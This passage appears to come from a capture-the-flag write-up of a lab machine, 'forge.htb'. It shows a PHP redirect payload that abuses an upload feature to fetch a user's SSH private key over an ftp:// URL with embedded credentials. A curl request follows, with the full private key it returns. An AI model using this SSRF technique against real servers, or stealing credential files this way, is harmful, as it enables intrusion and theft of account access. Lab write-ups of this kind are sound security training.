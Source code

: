 The best thing we could possibly retrieve with the upload functionality from the ftp server would probably be a private ssh key. For this we just use the `ftp://` wrapper and specify the credentials in the URL under the assumption the ftp server might have been started in the home dir.

```php
<?php

header("Location: http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/id_rsa");

?>
```

Sending the request and retrieving the page we were able to get the ssh key of the user user.

```
$ curl http://forge.htb/uploads/FZ0VwlSXGSIRanmdtzN5
-----BEGIN OPENSSH PRIVATE KEY-----
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
shlLupso7WoS0AAAAKdXNlckBmb3JnZQE=
-----END OPENSSH PRIVATE KEY-----
```
